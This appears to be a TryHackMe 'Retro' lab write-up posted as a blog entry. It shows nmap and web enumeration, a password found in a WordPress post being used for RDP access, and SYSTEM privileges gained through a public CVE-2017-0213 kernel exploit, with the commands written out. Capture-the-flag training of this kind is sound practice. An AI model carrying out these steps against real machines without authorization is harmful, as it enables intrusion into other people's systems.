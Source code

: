 ```yaml
---
layout: post
title:  THM Retro Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-19 05:00:00 +0300
image:  '/images/thm_retro.png'
tags:   [Write-ups, THM, OSCP+, Hard, Windows, WordPress, RDP, Windows-Kernel-Exploit, CVE]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [RDP Access with xFreeRDP](#rdp-access-with-xfreerdp)
- [Privilege Escalation](#privilege-escalation)
  - [CVE-2017-0213 Kernel Exploit](#cve-2017-0213-kernel-exploit)

# Enumeration
### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.52.234

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p80,3389 10.10.52.234
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 11:31 EST
Nmap scan report for 10.10.52.234
Host is up (0.055s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-18T16:32:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-11-17T16:26:50
|_Not valid after:  2025-05-19T16:26:50
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-11-18T16:32:05+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.49 seconds
```

Examining our nmap scan results, we can see port 80 HTTP and port 3389 RDP open.

### Web Enumeration
If we visit the website, we will see a Microsoft IIS page:

```shell
http://10.10.52.234/
```

Lets use feroxbuster to try finding something interesting:

```shell
feroxbuster -u http://10.10.52.234/
```

Examining the results, we will can easily notice that the target is running WordPress (WP).

Notice that all directories in the results starts with:

```shell
http://10.10.52.234/retro
```

If we visit the URL above, we will appear on a website which seems to be some kind of retro gaming website.

Lets take a look at the posts created by Wade. Click on Wade, it will take us to a list of Posts by Wade:

```shell
http://10.10.52.234/retro/index.php/author/wade/
```

Examining the posts on the blog, we will find a password:

```shell
http://10.10.52.234/retro/index.php/2019/12/09/ready-player-one/
```

```shell
Leaving myself a note here just in case I forget how to spell it: parzival
```

Maybe we can use parzival as password somewhere.

# Foothold
### RDP Access with xFreeRDP
We can suppose that prazival is the password for the user Wade. Lets try getting RDP access with these credentials:

```shell
Wade:parzival
```

```shell
nxc rdp 10.10.48.32 -u Wade -p 'parzival' --local-auth
```

```shell
sudo xfreerdp /u:Wade /p:parzival /v:10.10.58.188 /drive:share,/home/kali/share
```

Nice! The credentials were valid and we got access as the user Wade.

### User Flag
Now we can get the user.txt flag, we can click and open it on the desktop or use the command line:

```shell
type C:\Users\Wade\Desktop\user.txt
```

# Privilege Escalation
### CVE-2017-0213 Kernel Exploit
We can use ver or systeminfo to enumerate the kernel info:

```shell
ver

systeminfo | findstr /B /C:"OS Version"
```

This will give us the built 14393 as result:

```shell
OS Version:                10.0.14393 N/A Build 14393
```

We can find a exploit for the version 14393 here if we do some search and look throughly:

https://github.com/SecWiki/windows-kernel-exploits

Lets download the kernel exploit we need:

```shell
https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2017-0213/CVE-2017-0213_x64.zip
```

Note: Dont use wget to download it. Visit the page and click on download.

Now move and use the exploit:

```shell
# I will make use of my xfreerdp folder
sudo cp CVE-2017-0213_x64.exe /home/kali/share

# Now we can run the exploit
Shift + Right-click on Desktop -> Open command window here

# Enter the following to run the exploit
CVE-2017-0213_x64.exe
```

A new CLI window will pop up giving us a shell as system.

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt.txt
```

If we get any problem when trying to copy the flag content, just copy the root.txt.txt into the desktop of the user Wade and open the file there:

```shell
copy C:\Users\Administrator\Desktop\root.txt.txt C:\Users\Wade\Desktop\root.txt
```